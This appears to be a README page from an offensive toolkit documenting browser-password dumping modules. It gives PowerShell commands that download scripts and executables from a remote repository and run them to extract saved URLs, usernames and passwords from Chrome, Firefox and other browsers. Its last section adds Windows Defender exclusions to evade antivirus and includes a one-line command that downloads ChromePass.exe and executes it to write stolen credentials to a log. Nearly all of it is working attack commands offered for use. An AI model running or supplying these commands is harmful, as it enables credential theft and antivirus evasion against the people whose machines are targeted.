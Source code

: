 ## Module Name
   <b><i>DumpChromePasswords.ps1</i></b>

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|Only dumps chrome browser|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```

**prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

```powershell
.\DumpChromePasswords.ps1
```

<br />


## Module Name
   <b><i>HarvestBrowserPasswords.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|Dumps major browsers|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```

<br />


## Module Name
   <b><i>ChromePass.exe - UNDER-DEVELOP (NOT-STABLE)</i></b>
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|ChromePass|dumps usernames, passwords from chrome|Administrator|Invoke-Exclusions.ps1 - Evade AV\Download PE\Exec PE|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name WinDefend)

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name ConfigDefender).ExportedCommands|findstr /C:"Set-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List
.\Invoke-Exclusions.ps1 -action "query"


#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionProcess "C:\Users\pedro\AppData\Local\Temp\Payload.exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"


## Add exclusion + download URI PE + execute PE
#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "$Env:TMP\Payload.exe" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"

```
